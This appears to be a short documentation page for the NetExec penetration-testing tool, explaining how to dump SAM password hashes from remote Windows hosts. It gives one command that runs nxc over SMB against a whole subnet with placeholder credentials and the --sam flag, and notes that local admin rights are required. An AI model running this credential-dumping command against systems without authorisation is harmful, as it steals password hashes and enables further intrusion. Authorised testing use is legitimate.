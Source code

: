 # Dump SAM

### Dump SAM hashes using methods from secretsdump.py

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```
